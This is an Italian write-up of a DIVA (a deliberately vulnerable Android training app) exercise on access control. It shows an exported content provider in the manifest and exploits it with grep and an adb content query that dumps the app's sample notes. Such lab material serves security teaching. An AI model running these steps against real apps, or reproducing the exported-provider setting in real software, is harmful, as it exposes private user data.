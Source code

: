 ## Access Control Issues - Part 3

Codice Vulnerabile:

> app/src/main/AndroidManifest.xml

```
<provider
    android:name=".NotesProvider"
    android:authorities="jakhar.aseem.diva.provider.notesprovider"
    android:enabled="true"
    android:exported="true" >
</provider>
```

I content provider sono rappresentati usando URI che iniziano con `content://`

Exploit:

- `$ grep -r "content:" *`

`app/src/main/res/values/strings.xml:    <string name="notesprovider_url">content://jakhar.aseem.diva.provider.notesprovider/notes</string>`

- `$ adb content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes`

```
Row: 0 _id=5, title=Exercise, note=Alternate days running
Row: 1 _id=4, title=Expense, note=Spent too much on home theater
Row: 2 _id=6, title=Weekend, note=b333333333333r
Row: 3 _id=3, title=holiday, note=Either Goa or Amsterdam
Row: 4 _id=2, title=home, note=Buy toys for baby, Order dinner
Row: 5 _id=1, title=office, note=10 Meetings. 5 Calls. Lunch with CEO
```

